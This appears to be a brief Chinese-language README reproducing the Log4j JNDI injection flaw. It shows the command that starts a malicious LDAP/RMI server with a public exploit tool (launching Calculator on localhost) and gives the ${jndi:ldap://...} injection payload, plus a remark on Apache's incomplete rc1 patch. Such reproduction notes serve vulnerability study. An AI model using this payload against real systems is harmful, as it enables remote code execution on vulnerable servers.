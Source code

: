 ## 复现

- 启动恶意LDAP / RMI 服务

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "/System/Applications/Calculator.app/Contents/MacOS/Calculator" -A "127.0.0.1"
```

工具地址：https://github.com/welk1n/JNDI-Injection-Exploit

![](1.png)

- 连接启动的恶意server

```
${jndi:ldap://127.0.0.1:1389/xxxxxx}
```

![](2.png)

P.S. Apache官方的 2.15.0-rc1只修复了ldap利用，没有修复rmi利用，然后又紧急发布了第2个补丁2.15.0-rc2

